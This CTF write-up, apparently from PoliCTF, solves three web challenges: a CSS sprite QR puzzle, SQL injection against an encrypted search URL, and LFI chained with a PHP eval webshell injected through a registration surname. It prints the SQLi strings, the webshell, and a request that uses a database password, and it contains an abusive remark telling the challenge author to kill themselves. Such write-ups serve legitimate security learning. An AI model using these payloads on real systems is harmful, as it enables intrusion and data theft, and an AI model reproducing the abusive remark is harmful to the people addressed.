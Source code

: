 `http://polictf.it/scoreboard/ranking`

## John the traveller (100pt)

Seriously, whoever made this challenge please suicide immediately.

Nothing technical, just look at the css and html codes you find the big image(3.jpg) with locations of partial data(background-position).

Putting all partial images together  will lead you to the QR code of the flag.

```
td[class^='w']{text-indent:-1000em;overflow:hidden;padding:0!important;margin:0;background:url(/static/img/carousel/3.jpg);height:100px;width:100px}td[class^=w00]{background-position:-4834px -5441px}td[class^=w01]{background-position:-12295px -6191px}td[class^=w02]{background-position:-5673px -3015px}td[class^=w03]{background-position:-5090px -6948px}td[class^=w04]{background-position:-4225px -8395px}td[class^=w05]{background-position:-2000px -7510px}td[class^=w10]{background-position:-10362px -4852px}td[class^=w11]{background-position:-11658px -4830px}td[class^=w12]{background-position:-13581px -9130px}td[class^=w13]{background-position:-6364px -7488px}td[class^=w14]{background-position:-3707px -8763px}td[class^=w15]{background-position:-3966px -3490px}td[class^=w20]{background-position:-8331px -5586px}td[class^=w21]{background-position:-11766px -5932px}td[class^=w22]{background-position:-13452px -5478px}td[class^=w23]{background-position:-6170px -5651px}td[class^=w24]{background-position:-5500px -3923px}td[class^=w25]{background-position:-1351px -6299px}td[class^=w30]{background-position:-4744px -6796px}td[class^=w31]{background-position:-2065px -1848px}td[class^=w32]{background-position:-2972px -2280px}td[class^=w33]{background-position:-8655px -7704px}td[class^=w34]{background-position:-13192px -10145px}td[class^=w35]{background-position:-4895px -10167px}td[class^=w40]{background-position:-2000px -8655px}td[class^=w41]{background-position:-12868px -5975px}td[class^=w42]{background-position:-15872px -5262px}td[class^=w43]{background-position:-6581px -5241px}td[class^=w44]{background-position:-574px -6321px}td[class^=w45]{background-position:-11636px -5284px}td[class^=w50]{background-position:-10643px -4031px}td[class^=w51]{background-position:-4765px -4160px}td[class^=w52]{background-position:-8007px -7034px}td[class^=w53]{background-position:-14230px -6105px}td[class^=w54]{background-position:-1460px -10794px}td[class^=w55]{background-position:-3988px -6105px}}

....

flag{run_to_the_hills_run_for_your_life}
```

--

## John the referee (150pt)

Yet another CBC padding vulnerability challenge.

You just need to perform an sqli until you find the flag.

```
http://referee.polictf.it/search-result/507e1470f85421fe8408a3e7996d6b667397dfb5f70b83b5daa7358fbc683f43253ffa7893bfa3f0e49fe1507c587c34

Search for: J'union select 1, 2, 3, 4#
Generic placeholder image
2
3

........

http://referee.polictf.it/search-result/4b8bb114696ea8121288be6f913309b1abf5cd703dc5c827adba45679c330e9536c1b8adb8ff2a9952f15f9530c24aaa

Search for: '||available=0#LDHAROLD
Generic placeholder image
John
flag{Damn_John!_CBC_1s_not_the_best_s0lution_in_this_c4se}
```

--

## Magic chall (350pt)


By performing LFI from the `index.php?page=`,  you can leak the full sourcecode. (by php://filter/)

The magic class is as follows:
```
        ...
		$stmt = $mysqli->prepare("SELECT word FROM magic_word");
		$stmt -> execute();
		$stmt -> store_result();
		$stmt -> bind_result($magic_word);
		$stmt -> fetch();
        ...
```

and the logger class is as follows:
```
        ...
		$this -> host = $host;
		$this -> filename = $_SERVER["DOCUMENT_ROOT"]."log/" . $host . "_" . $user->getSurname();
		$this -> user = $user;
        ...
```

Since the file inclusion checks for php file,   we can write php filename in the $user->getSurname(); on registration and inject php codes in it.

I've registered wih my surname as `<?php eval($_GET['eval']); ?>`, the payload is as follows:

```
http://52.18.53.32/index.php?page=log/202.150.191.45_eval2&eval=mysql_connect('localhost','magic','nrqdUz4PMKNFZ7iphnzE');mysql_select_db('magicchall');$a=mysql_fetch_assoc(mysql_query('SELECT * FROM magic_word'));print($a['word']);

flag{session_regenerate_id()_is_a_very_cool_function_use_it_whenever_you_happen_to_use_session_start()}
```